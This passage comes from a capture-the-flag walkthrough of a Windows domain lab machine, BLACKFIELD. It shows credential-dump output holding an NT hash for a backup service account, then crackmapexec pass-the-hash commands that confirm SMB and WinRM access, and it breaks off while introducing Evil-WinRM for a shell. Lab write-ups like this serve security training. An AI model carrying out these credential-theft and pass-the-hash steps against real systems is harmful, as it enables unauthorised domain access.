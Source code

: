                     Username: svc_backup                      
                    Domain: BLACKFIELD.LOCAL   
                    Password: None                            
            == WDIGEST [633ba]==                              
                    username svc_backup
                    domainname BLACKFIELD
                    password None
                                                              
    == LogonSession ==                                  
    authentication_id 365835 (5950b)
    session_id 2
    username UMFD-2
    domainname Font Driver Host
    logon_server                                        
    logon_time 2020-02-23T17:59:38.218491+00:00                                                                                                                                                                                                
    sid S-1-5-96-0-2
    ...[snip]...



There are 23 different logon sessions in the data (only the first 1.5
shown above). The first one has the most useful bit of information, the
NT hash for svc_backup.

### Shell over WinRM

#### crackmapexec

The hash definitely works for SMB:



    root@kali# crackmapexec smb 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
    SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
    SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\svc_backup 9658d1d1dcd9250115e2205d9f48400d  



When I checked for WinRM, `Pwn3d!` as well:



    root@kali# crackmapexec winrm 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
    WINRM       10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
    WINRM       10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
    WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)



#### Evil-WinRM

[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) provides a
shell:

